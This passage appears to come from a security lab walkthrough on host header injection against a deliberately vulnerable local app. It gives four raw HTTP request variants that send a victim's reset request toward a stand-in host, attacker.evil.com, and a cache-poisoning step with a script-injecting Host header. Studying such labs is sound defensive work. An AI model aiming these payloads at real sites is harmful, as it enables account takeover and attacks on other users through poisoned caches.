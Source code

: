 **Technique 1: X-Forwarded-Host Header Injection**
```http
POST /api/vuln/host-header-injection HTTP/1.1
Host: localhost:5000
X-Forwarded-Host: attacker.evil.com
Content-Type: application/json

{"email":"victim@bank.com"}
```

**Technique 2: Multiple Host Headers**
```http
POST /api/vuln/host-header-injection HTTP/1.1
Host: localhost:5000
Host: attacker.evil.com
Content-Type: application/json

{"email":"victim@bank.com"}
```

**Technique 3: Host Header with Port Injection**
```http
POST /api/vuln/host-header-injection HTTP/1.1
Host: localhost:5000@attacker.evil.com
Content-Type: application/json

{"email":"victim@bank.com"}
```

**Technique 4: Absolute URI in Request Line**
```http
POST http://attacker.evil.com/api/vuln/host-header-injection HTTP/1.1
Host: localhost:5000
Content-Type: application/json

{"email":"victim@bank.com"}
```

#### Step 4: Web Cache Poisoning via Host Header
**Objective:** Poison the cache to affect all users

**Using Burp Suite for Cache Poisoning:**

1. **Identify cacheable endpoints:**
```http
GET /api/vuln/host-header-injection/info HTTP/1.1
Host: attacker.evil.com
```

2. **Inject malicious Host header:**
```http
GET /api/vuln/host-header-injection/info HTTP/1.1
Host: attacker.evil.com"><script>alert('XSS')</script><"
Cache-Control: no-cache
```

3. **Check response headers:**
```http
HTTP/1.1 200 OK
Cache-Control: public, max-age=3600
X-Cache: MISS
```
